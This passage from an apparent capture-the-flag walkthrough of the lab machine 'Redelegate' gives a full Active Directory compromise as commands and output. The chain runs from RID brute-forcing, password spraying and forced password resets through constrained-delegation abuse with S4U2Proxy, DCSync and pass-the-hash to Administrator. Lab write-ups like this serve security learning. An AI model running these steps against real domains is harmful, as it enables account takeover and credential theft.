❯ nxc mssql 10.129.234.50 -u 'SQLGuest' -p '<REDACTED_PASSWD>' --rid-brute --local-auth
MSSQL       10.129.234.50   1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl) (EncryptionReq:False)
MSSQL       10.129.234.50   1433   DC               [+] DC\SQLGuest:<REDACTED_PASSWD>
MSSQL       10.129.234.50   1433   DC               498: REDELEGATE\Enterprise Read-only Domain Controllers
MSSQL       10.129.234.50   1433   DC               500: WIN-Q13O908QBPG\Administrator
MSSQL       10.129.234.50   1433   DC               501: REDELEGATE\Guest
MSSQL       10.129.234.50   1433   DC               502: REDELEGATE\krbtgt
MSSQL       10.129.234.50   1433   DC               512: REDELEGATE\Domain Admins
MSSQL       10.129.234.50   1433   DC               513: REDELEGATE\Domain Users
MSSQL       10.129.234.50   1433   DC               514: REDELEGATE\Domain Guests
MSSQL       10.129.234.50   1433   DC               515: REDELEGATE\Domain Computers
MSSQL       10.129.234.50   1433   DC               516: REDELEGATE\Domain Controllers
MSSQL       10.129.234.50   1433   DC               517: REDELEGATE\Cert Publishers
MSSQL       10.129.234.50   1433   DC               518: REDELEGATE\Schema Admins
MSSQL       10.129.234.50   1433   DC               519: REDELEGATE\Enterprise Admins
MSSQL       10.129.234.50   1433   DC               520: REDELEGATE\Group Policy Creator Owners
MSSQL       10.129.234.50   1433   DC               521: REDELEGATE\Read-only Domain Controllers
MSSQL       10.129.234.50   1433   DC               522: REDELEGATE\Cloneable Domain Controllers
MSSQL       10.129.234.50   1433   DC               525: REDELEGATE\Protected Users
MSSQL       10.129.234.50   1433   DC               526: REDELEGATE\Key Admins
MSSQL       10.129.234.50   1433   DC               527: REDELEGATE\Enterprise Key Admins
MSSQL       10.129.234.50   1433   DC               553: REDELEGATE\RAS and IAS Servers
MSSQL       10.129.234.50   1433   DC               571: REDELEGATE\Allowed RODC Password Replication Group
MSSQL       10.129.234.50   1433   DC               572: REDELEGATE\Denied RODC Password Replication Group
MSSQL       10.129.234.50   1433   DC               1000: REDELEGATE\SQLServer2005SQLBrowserUser$WIN-Q13O908QBPG
MSSQL       10.129.234.50   1433   DC               1002: REDELEGATE\DC$
MSSQL       10.129.234.50   1433   DC               1103: REDELEGATE\FS01$
MSSQL       10.129.234.50   1433   DC               1104: REDELEGATE\Christine.Flanders
MSSQL       10.129.234.50   1433   DC               1105: REDELEGATE\Marie.Curie
MSSQL       10.129.234.50   1433   DC               1106: REDELEGATE\Helen.Frost
MSSQL       10.129.234.50   1433   DC               1107: REDELEGATE\Michael.Pontiac
MSSQL       10.129.234.50   1433   DC               1108: REDELEGATE\Mallory.Roberts
MSSQL       10.129.234.50   1433   DC               1109: REDELEGATE\James.Dinkleberg
MSSQL       10.129.234.50   1433   DC               1112: REDELEGATE\Helpdesk
MSSQL       10.129.234.50   1433   DC               1113: REDELEGATE\IT
MSSQL       10.129.234.50   1433   DC               1114: REDELEGATE\Finance
MSSQL       10.129.234.50   1433   DC               1115: REDELEGATE\DnsAdmins
MSSQL       10.129.234.50   1433   DC               1116: REDELEGATE\DnsUpdateProxy
MSSQL       10.129.234.50   1433   DC               1117: REDELEGATE\Ryan.Cooper
MSSQL       10.129.234.50   1433   DC               1119: REDELEGATE\sql_svc
```

---
## Credential Spraying — Getting a Foothold

With a full user list and the password `<REDACTED_PASSWD>` recovered from the KeePass database, we build our wordlists. We populate `users.txt` with all domain users (excluding machine accounts and built-in system accounts), and `passwords.txt` with `<REDACTED_PASSWD>` as our sole candidate — since the KeePass audit confirmed it was a shared password and the audit noted the rotation was already "DONE."
```bash
❯ vim users.txt
❯ vim passwords.txt
```

We first attempt the spray with `--no-bruteforce`, which pairs users and passwords by index (line 1 user with line 1 password, line 2 user with line 2 password, etc.). This fails because we have 9 users but only 1 password — the lists aren't the same length:
```bash
❯ nxc smb 10.129.234.50 -u users.txt -p passwords.txt --continue-on-success --no-bruteforce
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
[01:44:57] ERROR    Number provided of usernames and passwords/hashes do not match!        connection.py:585
```

Without `--no-bruteforce`, `netexec` tests every password against every user — which is exactly what we want for a spray. `--continue-on-success` ensures it doesn't stop at the first valid hit:
```bash
❯ nxc smb 10.129.234.50 -u users.txt -p passwords.txt --continue-on-success
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.50   445    DC               [-] redelegate.vl\Administrator:<REDACTED_PASSWD> STATUS_LOGON_FAILURE
SMB         10.129.234.50   445    DC               [-] redelegate.vl\Christine.Flanders:<REDACTED_PASSWD> STATUS_LOGON_FAILURE
SMB         10.129.234.50   445    DC               [+] redelegate.vl\Marie.Curie:<REDACTED_PASSWD>
SMB         10.129.234.50   445    DC               [-] redelegate.vl\Helen.Frost:<REDACTED_PASSWD> STATUS_LOGON_FAILURE
SMB         10.129.234.50   445    DC               [-] redelegate.vl\Michael.Pontiac:<REDACTED_PASSWD> STATUS_LOGON_FAILURE
<SNIP>
```

Valid credentials: **`Marie.Curie:<REDACTED_PASSWD>`**

We verify the hit explicitly before moving on:
```bash
❯ nxc smb 10.129.234.50 -u 'Marie.Curie' -p '<REDACTED_PASSWD>'
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.50   445    DC               [+] redelegate.vl\Marie.Curie:<REDACTED_PASSWD>
```

---

## BloodHound Enumeration — Mapping the Attack Path

With valid domain credentials, we run BloodHound collection to graph all AD relationships, ACLs, group memberships, and delegation configurations. This gives us a visual attack map we can query with pre-built or custom Cypher queries.




**Key findings:**

- `Marie.Curie` is a member of the **Helpdesk** group.
- **Helpdesk** has **`ForceChangePassword`** over six accounts: `Guest`, `Helen.Frost`, `Michael.Pontiac`, `Christine.Flanders`, `James.Dinkleberg`, and `SQL_SVC`.
- `Helen.Frost` is the only member of **Remote Management Users** — the group that grants WinRM access (port 5985).

The path is: reset `Helen.Frost`'s password via `ForceChangePassword` → WinRM in as her.

---
## Abusing ForceChangePassword — Pivoting to Helen.Frost

`ForceChangePassword` is an AD extended right that allows resetting another user's password **without knowing their current one**. It operates at the LDAP level, so no local access to the target machine is needed. `bloodyAD` performs this operation using standard authenticated LDAP over port 389:
```bash
❯ bloodyAD -d redelegate.vl -u 'Marie.Curie' -p '<REDACTED_PASSWD>' --host 10.129.234.50 set password 'Helen.Frost' 'Pass1234!@#$'
[+] Password changed successfully!
```

---
### Verifying WinRM Access and Getting a Shell

We confirm the new credentials work over WinRM before opening an interactive shell. The `(Pwn3d!)` tag in `netexec` output means the account has WinRM access — it maps to membership in **Remote Management Users**, which we already confirmed via BloodHound:
```bash
❯ nxc winrm 10.129.234.50 -u 'Helen.Frost' -p 'Pass1234!@#$'
WINRM       10.129.234.50   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
WINRM       10.129.234.50   5985   DC               [+] redelegate.vl\Helen.Frost:Pass1234!@#$ (Pwn3d!)
```

```powershell
❯ evil-winrm -i 10.129.234.50 -u 'Helen.Frost' -p 'Pass1234!@#$'

Evil-WinRM shell v3.9

Warning: Remote path completions is disabled due to ruby limitation: undefined method 'quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Helen.Frost\Documents> type ..\Desktop\user.txt
<USER_FLAG>
```

---
## Privilege Escalation — Constrained Delegation via SeEnableDelegationPrivilege

### Checking Token Privileges

The first command on any new shell is `whoami /priv`. This lists every privilege currently assigned to the user's token — many Windows privileges that look innocuous can be abused for escalation:
```powershell
*Evil-WinRM* PS C:\Users\Helen.Frost\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
```

**`SeEnableDelegationPrivilege`** stands out. By default, only Domain Admins can configure the delegation attributes (`msDS-AllowedToDelegateTo` and `TRUSTED_TO_AUTH_FOR_DELEGATION`) on AD objects. This privilege extends that ability to our user — meaning we can configure Constrained Delegation on any account we already have write access to.

### Checking Machine Account Quota

Before deciding on an attack path, we check `MachineAccountQuota` (MAQ) — the number of machine accounts a regular user is allowed to create in the domain. If MAQ > 0, we could create a fresh machine account and configure delegation on it. If it's 0, we need to find an existing machine account we can control:
```bash
❯ nxc ldap 10.129.234.50 -u 'Helen.Frost' -p 'Pass1234!@#$' -M maq
LDAP        10.129.234.50   389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl) (signing:None) (channel binding:No TLS cert)
LDAP        10.129.234.50   389    DC               [+] redelegate.vl\Helen.Frost:Pass1234!@#$
MAQ         10.129.234.50   389    DC               [*] Getting the MachineAccountQuota
MAQ         10.129.234.50   389    DC               MachineAccountQuota: 0
```
---
### BloodHound — Finding a Controllable Machine Account





BloodHound reveals the full privilege chain:

- `Helen.Frost` is a member of the **IT** group.
- **IT** has **`GenericAll`** over **`FS01$`** — a computer account already in the domain.
- `GenericAll` is full control: we can reset its password, modify its attributes, and configure delegation on it.
- With `SeEnableDelegationPrivilege` we can also set `TRUSTED_TO_AUTH_FOR_DELEGATION` — something that normally requires Domain Admin rights.

The attack plan: configure `FS01$` with Constrained Delegation targeting `cifs/dc.redelegate.vl`, then perform S4U2Proxy to obtain a service ticket impersonating the DC machine account, and finally run DCSync.

Image 5 also shows a secondary path through `Ryan.Cooper` — he's also in **IT**, and is a member of **Domain Admins**. We could potentially reset his password the same way we did with `Helen.Frost` and get direct DA access. But we'll follow the delegation path as it's the intended route and teaches the more interesting technique.

---
## Configuring Constrained Delegation on FS01$

### Step 1 — Get a TGT for Helen.Frost

Kerberos operations require a valid TGT cached locally. `getTGT.py` requests one from the DC and saves it to a `.ccache` file. We then export `KRB5CCNAME` so every subsequent Kerberos-aware tool knows where to find it:
```bash
❯ getTGT.py redelegate.vl/Helen.Frost:'Pass1234!@#$'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in Helen.Frost.ccache
```

```bash
❯ export KRB5CCNAME=Helen.Frost.ccache
```

### Step 2 — Reset FS01$'s Password

Since IT has `GenericAll` over `FS01$`, we can reset its password without knowing the current one. This gives us full control over the account — we now know its credentials:
```bash
❯ bloodyAD -d redelegate.vl -k --host 'dc.redelegate.vl' set password 'FS01$' 'Pass1234!@#$'
[+] Password changed successfully!
```

The `-k` flag tells `bloodyAD` to use our cached Kerberos ticket instead of a plaintext password for authentication.

### Step 3 — Enable Protocol Transition

For S4U2Proxy to work **without** needing the target user's TGT, the delegating account must have the `TRUSTED_TO_AUTH_FOR_DELEGATION` UAC flag set. This enables the S4U2Self extension — which lets a service request a ticket to itself on behalf of any user. Normally only Domain Admins can set this flag. `SeEnableDelegationPrivilege` is exactly what allows us to do it as a regular user:
```bash
❯ bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" add uac FS01$ -f TRUSTED_TO_AUTH_FOR_DELEGATION
[+] ['TRUSTED_TO_AUTH_FOR_DELEGATION'] property flags added to FS01$'s userAccountControl
```

### Step 4 — Set the Delegation Target

We set `msDS-AllowedToDelegateTo` on `FS01$` to point to `cifs/dc.redelegate.vl`. This tells the KDC that `FS01$` is trusted to delegate to the CIFS service on the DC — which is what `secretsdump.py` uses internally (SMB/CIFS = port 445, the protocol for DRSUAPI/DCSync):
```bash
❯ bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" set object FS01$ msDS-AllowedToDelegateTo -v cifs/dc.redelegate.vl
[+] FS01$'s msDS-AllowedToDelegateTo has been updated
```

### Step 5 — Get a TGT for FS01$

Now we authenticate as `FS01$` with the password we just set, and cache its TGT:
```bash
❯ getTGT.py redelegate.vl/FS01$:'Pass1234!@#$'
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in FS01$.ccache
```

```bash
❯ export KRB5CCNAME=FS01$.ccache
```

## S4U2Proxy — Impersonating the Domain Controller

### Step 6 — Request the Impersonation Ticket

`getST.py` performs the full S4U chain using the `FS01$` TGT:

1. **S4U2Self**: `FS01$` requests a service ticket to itself on behalf of `dc` (the DC's machine account name).
2. **S4U2Proxy**: using that ticket as proof of delegation, it requests a service ticket for `cifs/dc.redelegate.vl` impersonating `dc`.

We impersonate `dc` — the Domain Controller's machine account — which by design has DCSync (directory replication) rights:
```bash
❯ getST.py -k -no-pass -spn cifs/dc.redelegate.vl -impersonate dc redelegate.vl/FS01$
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Impersonating dc
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache
```

```bash
❯ export KRB5CCNAME=dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache
```

## DCSync — Dumping the Administrator Hash

With the impersonation ticket loaded, we run `secretsdump.py`. It connects over CIFS using our ticket and replicates credentials via the DRSUAPI protocol — the same mechanism domain controllers use to sync with each other. The DC treats the request as coming from another DC, so it hands over the hashes:
```bash
❯ secretsdump.py -k -no-pass dc.redelegate.vl -just-dc-user Administrator
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:<REDACTED_HASH>:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:<REDACTED_HASH>
Administrator:aes128-cts-hmac-sha1-96:<REDACTED_HASH>
Administrator:des-cbc-md5:<REDACTED_HASH>
[*] Cleaning up...
```

NT hash: **`<REDACTED_HASH>`**

## Shell as Administrator — Root Flag

We use the NT hash directly via Pass-the-Hash with `evil-winrm`. No password cracking required:
```powershell
❯ evil-winrm -i 10.129.234.50 -u 'Administrator' -H '<REDACTED_HASH>'

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
<ROOT_FLAG>
```

Rooted!!!
